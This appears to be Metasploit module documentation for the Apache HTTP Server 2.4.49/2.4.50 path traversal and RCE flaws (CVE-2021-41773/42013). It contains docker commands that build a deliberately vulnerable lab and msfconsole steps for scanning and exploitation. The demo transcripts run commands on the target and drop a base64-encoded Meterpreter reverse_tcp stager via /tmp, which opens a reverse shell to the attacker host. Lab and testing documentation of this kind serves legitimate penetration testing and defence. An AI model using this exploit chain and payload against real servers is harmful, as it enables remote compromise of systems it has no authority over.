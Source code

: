 # CVE-2021-41773: Path Traversal Zero-Day in Apache HTTP Server Exploited

On October 5, the Apache HTTP Server Project patched CVE-2021-41773, a path traversal and file disclosure vulnerability in Apache HTTP Server, an open-source web server for Unix and Windows that is among the most widely used web servers. According to the security advisory, CVE-2021-41773 has been exploited in the wild as a zero-day. The vulnerability was disclosed to the Apache HTTP Server Project on September 29 by Ash Daulton and the cPanel Security Team. However, the advisory does not indicate when exploitation of CVE-2021-41773 was detected, but it stands to reason that the exploitation drove the expedited release of a patch.

See: https://fr.tenable.com/blog/cve-2021-41773-path-traversal-zero-day-in-apache-http-server-exploited

This vulnerability has been reintroduced in Apache 2.4.50 fix (CVE-2021-42013).

It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue only affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.

## Make your lab

```
docker run -dit --name CVE-2021-41773 -p 8080:80 -v /opt/apache2.4.49:/usr/local/apache2/htdocs httpd:2.4.49
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-41773
docker start CVE-2021-41773
```

## Verification

List the steps needed to make sure this thing works

- [ ] Make your lab using commands above.

Use scanner module:

- [ ] Start `msfconsole`.
- [ ] `use auxiliary/scanner/http/apache_normalize_path`
- [ ] `set RHOSTS [IP]`
- [ ] `set RPORT 8080`
- [ ] `set SSL false`
- [ ] `run`

Use exploit module:

- [ ] Start `msfconsole`.
- [ ] `use exploit/multi/http/apache_normalize_path_rce`
- [ ] `set RHOSTS [IP]`
- [ ] `set RPORT 8080`
- [ ] `set SSL false`
- [ ] `set LHOST [IP]`
- [ ] `set VERBOSE true`
- [ ] `run`

## Demo

### CLI

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_normalize_path_rce) > set target 1
target => 1
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf6 exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf6 exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf6 exploit(multi/http/apache_normalize_path_rce) > set cmd uname -a
cmd => uname -a
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[+] uname -a
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Generated payload: uname -a
[!] http://172.20.4.11:8080 - Dumping command output in response
Linux 184ef33f9859 5.14.0-1-amd64 #1 SMP Debian 5.14.6-3 (2021-09-28) x86_64 GNU/Linux

msf6 exploit(multi/http/apache_normalize_path_rce) > 
```

### Meterpreter

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_normalize_path_rce) > setg RHOSTS 172.20.4.11
RHOSTS => 172.20.4.11
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf6 exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf6 exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf6 exploit(multi/http/apache_normalize_path_rce) > set lhost 172.20.7.36
lhost => 172.20.7.36
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 172.20.7.36:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] http://172.20.4.11:8080 - Generated command payload: echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwUByRRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d > /tmp/PJaT; chmod +x /tmp/PJaT; /tmp/PJaT; rm -f /tmp/PJaT
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 172.20.4.11
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.4.11:48540) at 2021-10-08 13:58:13 +0400
[!] This exploit may require manual cleanup of '/tmp/PJaT' on the target

meterpreter >
```

## References

  1. <https://httpd.apache.org/security/vulnerabilities_24.html>
  2. <https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse>
  3. <https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/apache/apache-httpd-rce.yaml>
  4. <https://github.com/projectdiscovery/nuclei-templates/commit/9384dd235ec5107f423d930ac80055f2ce2bff74>
  5. <https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis>
